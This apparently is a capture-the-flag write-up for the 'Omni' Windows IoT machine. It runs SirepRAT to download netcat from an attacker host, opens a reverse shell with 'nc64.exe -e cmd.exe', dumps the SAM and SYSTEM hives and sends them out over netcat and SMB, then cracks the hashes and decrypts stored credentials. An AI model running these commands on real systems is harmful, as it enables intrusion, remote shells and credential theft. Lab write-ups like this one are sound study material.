

```
PORT      STATE SERVICE  VERSION
135/tcp   open  msrpc    Microsoft Windows RPC
5985/tcp  open  upnp     Microsoft IIS httpd
8080/tcp  open  upnp     Microsoft IIS httpd
29817/tcp open  unknown
29819/tcp open  arcserve ARCserve Discovery
29820/tcp open  unknown
Service Info: Host: PING; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Foothold

Having a look at the Webpage on 8080 we are greeted with an authorization form that says "Windows Device Portal".
Searching for Windows Device Portal exploit we guickly find [this repo](https://github.com/SafeBreach-Labs/SirepRAT).

So let's try it.

We can upload files with this command:
```
python3 SirepRAT.py omni.htb LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" --args "Invoke-WebRequest -Uri "http://10.10.14.52:1235/nc64.exe/" -OutFile "C:\nc64.exe"
```
So we upload [netcat](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------) to our victim machine.

After creating our listener we can execute the attack with this command:

```
python3 SirepRAT.py omni.htb LaunchCommandWithOutput --return_output --cmd "C:\nc64.exe" --args "-e cmd.exe 10.10.14.52 4242"
```

## User

In order to get a user shell we first need some credentials. Credentials in Windows are stored inside the SAM file.
We can save the SAM file with this command `reg save HKLM\SAM C:\SAM` we will also need the SYSTEM file `reg save HKLM\SYSTEM C:\SYSTEM`

In order to crack it we transfer it to our host machine via netcat.
We receive the file on our host with `nc -l -p 1234 > SAM` and send it from the victim with `./nc64.exe -w 3 10.10.14.52 < SAM`.
Repeat the process for the SYSTEM file.

We didnt have much luck copying the SYSTEM file for some reason.. so we tried another approach:

We set up a smb share like this:
First we edit `/etc/samba/smb.conf` and append this to it:

```
[Public]
    path = /tmp/Public
    writable = yes
    guest ok = yes
    guest only = yes
    create mode = 0777
    directory mode = 077
    force user = nobody
```
Then we create the folder `/tmp/Public`, change its permission to 777 and restart samba like this `service smbd restart`.
We can now copy our SYSTEM file to it with this command:
```
copy C:\SYSTEM \\10.10.14.52\Public\SYSTEM
```

We can then extract the hashes with samdump2 like this:
```bash
samdump2 -o hashes SYSTEM SAM

[...]
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
disabled Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
disabled :504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
:1002:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
:1003:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

We can now crack the administrator hash with john the ripper:

```
echo "aad3b435b51404eeaad3b435b51404ee:e3cb0651718ee9b4faffe19a51faff95" > hash
john --fork=4 --format=nt hash --wordlist=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Node numbers 1-4 of 4 (fork)
Press 'q' or Ctrl-C to abort, almost any other key for status
mesh5143         (aad3b435b51404eeaad3b435b51404ee)
2 1g 0:00:00:00 DONE (2021-08-27 15:23) 9.090g/s 12741Kp/s 12741Kc/s 12741KC/s meshelle23..mesa85202
3 0g 0:00:00:00 DONE (2021-08-27 15:23) 0g/s 13792Kp/s 13792Kc/s 13792KC/s !!()ez:0).a6_123
1 0g 0:00:00:00 DONE (2021-08-27 15:23) 0g/s 14343Kp/s 14343Kc/s 14343KC/s !!!secret!!!.ie168
Waiting for 3 children to terminate
4 0g 0:00:00:00 DONE (2021-08-27 15:23) 0g/s 13791Kp/s 13791Kc/s 13791KC/s !!!rain..*7¡Vamos!
Session completed
```

We can now use the credentials `app:mesh5143` to authenticate on the webpage.

We are able to run commands under the `Processes` tab `Run command`.



To receive the user flag we can run:
```
powershell -c $credential = import-clixml -path C:\Data\Users\app\user.txt;$credential.GetNetworkCredential().password
```


## Root

Enumerating the same directory we find a file `iot-admin.xml`.

Running the same command again:
```
powershell -c $credential = import-clixml -path C:\Data\Users\app\iot-admin.xml;$credential.GetNetworkCredential().password
```

We get another password and use it to authenticate on the wegpage again: `administrator:_1nt3rn37ofTh1nGz`.

```
powershell -c $credential = import-clixml -path C:\Data\Users\administrator\root.txt;$credential.GetNetworkCredential().password
```
to get the root flag.